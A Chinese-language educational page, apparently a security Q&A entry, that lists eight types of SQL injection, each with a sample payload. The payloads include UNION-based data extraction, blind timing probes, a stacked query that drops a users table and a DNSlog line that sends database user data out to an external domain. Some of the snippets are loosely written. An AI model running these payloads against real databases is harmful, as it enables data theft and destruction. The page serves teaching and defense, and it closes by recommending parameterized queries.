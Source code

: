 ```yaml
---
title: 常见的 SQL 注入漏洞有哪些？
category: 前端安全
date: 2025-07-07 14:58
difficulty: 困难
excerpt: 列举了八种常见的 SQL 注入漏洞类型，并详细解释了每种类型的攻击方法和示例。
tags:
- SQL注入
- 安全性
- 安全
---
```

常见的 SQL 注入漏洞是指攻击者通过恶意 SQL 代码嵌入用户输入字段中，滥用数据库操作逻辑的多种方式。基于注入原理、数据利用和页面响应的分类，主要类型包括以下几种：

### 1. 报错注入 (Error-Based Injection)  
攻击者触发数据库错误，使内部信息泄露到页面。常用于有错误回显的场景，如使用 `extractvalue()` 或 `updatexml()` 函数通过错误消息暴露数据库表数据：
```sql
' and extractvalue(1, concat(0x5c, (select user()))) -- 
```

### 2. 联合查询注入 (UNION-Based Injection)  
通过插入 `UNION SELECT` 附加恶意查询，返回数据库完整信息集。需字段数目匹配和回显支持：
```sql
id=1' union select database(),user(),version() from information_schema.tables-- 
```

### 3. 布尔盲注 (Boolean-Based Blind Injection)  
注入真假逻辑条件，观察页面行为差异（如内容显示或错误）来判断数据库信息，无直接数据反馈：
```sql
id=2 and substring((select database()),1,1)='D' -- 
```

### 4. 时间盲注 (Time-Based Blind Injection)  
通过执行延迟操作（如 `SLEEP` 或 `BENCHMARK` 函数）探测是否注入成功：
```sql
id=2 and if(ascii(substring(database(),1,1))>90,sleep(5),0)-- 
```

### 5. 堆叠查询注入 (Stacked Queries Injection)  
在单一请求中执行多个独立 SQL 语句，需目标支持多语句（如 SQL Server）：
```sql
' ;drop table users;--
```

### 6. 宽字节注入 (Wide-Character Injection)  
利用字符集处理（如 GBK）导致过滤转义失效，从而绕过查询：
```sql
id=2 %df' union select 1,2-- 
```

### 7. 二次注入 (Second-Order Injection)  
恶意数据先存入数据库，后在后续代码中作为参数提取而触发注入：
```sql
初次输入 user: 'admin'-- ; 次次查询时执行 SELECT * FROM users WHERE id='admin'-- --
```

### 8. DNSlog 外带数据注入 (DNSlog Injection)  
通过构造域名记录外带数据，适用于数据库支持文件和 DNS 的场景：
```sql
concat(user(),'.a.dnslog.cn') INTO OUTFILE '/file' 
```

这些漏洞常见源于应用程序未过滤用户输入或使用字符串拼接 SQL，分类可基于类型、回显或请求方式深化，但上述代表现实中的高风险利用。防范建议包括实施参数化查询和输入验证等安全实践。
